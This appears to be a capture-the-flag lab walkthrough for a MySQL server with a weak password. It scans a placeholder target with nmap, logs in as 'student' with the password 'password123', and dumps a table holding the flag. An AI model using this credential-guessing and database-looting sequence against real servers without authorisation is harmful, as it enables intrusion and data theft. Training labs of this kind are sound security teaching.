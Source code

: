 ## MySQL Weak Password Walkthrough

1.  **Enumeration:** A port scan (`nmap <TARGET_IP>`) reveals that port 3306 (MySQL) is open to the network.
2.  **Attack:** An attacker would typically attempt to brute-force common usernames and passwords. In this lab, we know the user is `student` and the password is weak. We can connect directly.
    ```bash
    # Note: The --skip-ssl flag may be needed depending on the client version
    mysql -h <TARGET_IP> -u student -p --skip-ssl
    ```
3.  **Authentication:** When prompted, enter the weak password: `password123`.
4.  **Looting:** Once connected to the database, enumerate its contents to find the flag.
    ```sql
    -- Show all available databases
    show databases;

    -- Switch to the interesting database
    use secrets;

    -- Show tables in the current database
    show tables;

    -- Dump the contents of the table to find the flag
    select * from flag_table;
    ```

